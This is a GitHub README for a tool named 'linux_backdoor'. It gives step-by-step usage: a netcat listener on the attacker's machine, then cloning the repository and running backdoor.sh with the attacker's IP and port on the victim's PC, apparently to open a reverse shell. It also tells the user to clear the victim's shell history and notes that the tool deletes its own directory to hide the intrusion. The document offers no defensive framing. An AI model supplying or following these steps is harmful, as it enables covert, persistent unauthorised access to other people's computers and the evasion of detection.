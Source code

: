 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   $ nc -lvnp 443
   
  ~ Victim's PC ~

  $ git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  $ cd linux_backdoor
  
  $ chmod +x *
  
  $ bash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)


  Clearing Tracks :
  
   ~ Victim's PC ~
  
  $ history -c

  
  Note :

=================================================================================================================
|  You have to keep netcat listner(nc -lvnp 443) started whenever the victim's PC is on so you will get access  |
=================================================================================================================
  
===================================================================================================================  
|  Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's PC. |
===================================================================================================================
